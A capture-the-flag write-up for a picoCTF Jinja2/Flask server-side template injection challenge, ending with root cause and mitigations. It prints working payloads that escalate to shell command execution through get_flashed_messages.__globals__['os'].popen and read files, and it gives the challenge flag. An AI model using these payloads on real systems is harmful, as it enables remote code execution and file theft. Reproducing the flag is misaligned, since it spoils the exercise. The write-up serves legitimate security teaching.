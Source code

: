 ```markdown
# picoCTF – Server-Side Template Injection (SSTI) – Writeup

**Category:** Web Exploitation  
**Platform:** picoCTF (picoGym)  
**Challenge link:** [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)  
**Vulnerability:** Server-Side Template Injection (Jinja2 / Flask)  
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`

---

## 📝 Overview
The target web app reflects user input into a server-side template without proper sanitization.  
That allows Jinja2 expressions to be evaluated on the server (SSTI), which we can escalate to arbitrary command execution and read the flag file.

References:  
- [PortSwigger — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)  
- [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)

---

## 🔍 Recon & Vulnerability Discovery

### 1) Probe for SSTI
Start with a math probe to see if the template engine evaluates input:

```jinja
{{7*7}}
```

**Result:** The page returns `49`.
This confirms server-side evaluation (Jinja2).

---

### 2) Enumerate exposed objects

Try common objects to gauge context:

```jinja
{{ config }}
{{ request }}
{{ request.args }}
{{ request.headers }}
```

**Observed:**

```
{{ config }} -> <Config {'DEBUG': False, ...}>
{{ request.args }} -> ImmutableMultiDict([])
{{ request.headers }} -> (headers dump)
```

This strongly suggests **Flask + Jinja2** with access to Flask’s request context.

---

## 🚀 Privilege Escalation to RCE

Pivot using the flashing mechanism’s helper, which exposes Python modules:

```jinja
{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}
```

**Result:**

```
__pycache__  app.py  flag  requirements.txt
```

✅ Arbitrary command execution confirmed.

> **Why this works:**
> `get_flashed_messages` is a Flask helper available in the Jinja2 environment.
> The function’s `.__globals__` gives access to its module’s namespace, including imported modules like `os`.
> From there, `os.popen()` executes shell commands.

---

## 🎯 Exfiltrate the Flag

With RCE confirmed, read the `flag` file.

**Method A — via shell:**

```jinja
{{ get_flashed_messages.__globals__['os'].popen('cat flag').read() }}
```

**Method B — via Python I/O:**

```jinja
{{ get_flashed_messages.__globals__['__builtins__'].open('flag').read() }}
```

**Output:**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```

---

## ⚠️ Root Cause

* The app renders **untrusted user input** with `render_template_string`.
* Jinja2 expressions (`{{ ... }}`) are evaluated inside the template context.
* Attackers can reach Python builtins/modules like `os`, enabling arbitrary command execution.

---

## 🔒 Mitigations

* Never render raw user input directly into templates.
* Use context variables safely:

  ```python
  render_template("page.html", user=user)
  ```

  and in template: `{{ user|e }}` (escape input).
* Use sandboxed environments or limit exposed globals.
* Apply strict input validation and sanitization.
* Runtime defenses (e.g., WAFs) may block common SSTI payloads but are not substitutes for secure coding.

---

## 📌 TL;DR

1. Test: `{{7*7}}` → `49` (SSTI confirmed).
2. Enumerate: `{{ config }}`, `{{ request }}`.
3. Exploit: `{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}`.
4. Read flag: `{{ ... 'cat flag' ... }}` → `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`.

---

### 📚 References

* [PortSwigger Web Security Academy — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
* [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)
* [OnSecurity — SSTI with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```
